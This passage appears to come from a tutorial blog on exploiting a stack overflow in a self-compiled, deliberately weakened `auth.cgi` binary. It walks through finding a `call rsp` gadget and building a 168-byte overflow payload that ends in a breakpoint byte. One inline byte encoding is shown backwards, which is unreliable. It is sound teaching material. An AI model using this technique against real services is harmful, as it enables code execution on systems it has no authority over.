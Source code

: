 Thanks to `-z execstack`, an exploit can run code straight from the stack! The easiest way to do that is to find a `jmp rsp` or `call rsp` gadget. I always forget the mnemonics, so I use a simple assembly script:

```asm
bits 64

call rsp
jmp rsp
```

That I assemble then disassemble:

```
$ nasm -o test.bin test.asm
$ ndisasm -b64 test.bin
00000000  FFD4              call rsp
00000002  FFE4              jmp rsp
```

I compiled the binary with `-static`, so there should be lots of options:

```
$ objdump -D auth.cgi | grep 'ff [ed]4'
  4127c9:       41 ff d4                call   *%r12
  439981:       41 ff d4                call   *%r12
  4476d9:       41 ff d4                call   *%r12
  460d77:       4c 8d 25 ff d4 02 00    lea    0x2d4ff(%rip),%r12        # 48e27d <_dl_out_of_memory+0x1d>
  478436:       41 ff d4                call   *%r12
  47910f:       ff e4                   jmp    *%rsp
[...]
```

I chose the first, which is actually at 0x4127ca since we want to skip over the 0x41. If we encode that in 64-bit little endian, it'll look like `"\x41\x27\xca\x00\x00\x00\x00\x00"` (since it's padded to 8 full bytes then the bytes are reversed - if you find endianness confusing, don't worry - I've been doing this forever and still managed to do it backwards while writing this blog!).

If we send the following payload:

```
<A>*168 + <address of call rsp> + <something...>
```

The `call rsp` will start executing the code found at `<something...>`! This won't work on anything even remotely modern or hardened, but we'll talk about that in part 2 when I disable the executable stack!

The assembly instruction `cc` means "debug breakpoint" or "trap" - importantly, we can immediately tell that it executed. So let's send this:

```
<A>*168 + <address of call rsp> + cc
```

Which looks like this (I'm breaking up the different parts for clarify):

```
3.1.3 :006 > File.write('/tmp/poc.bin', ('A'*168)+("\xca\x27\x41\x00\x00\x00\x00\x00")+("\xcc"))
 => 177
```
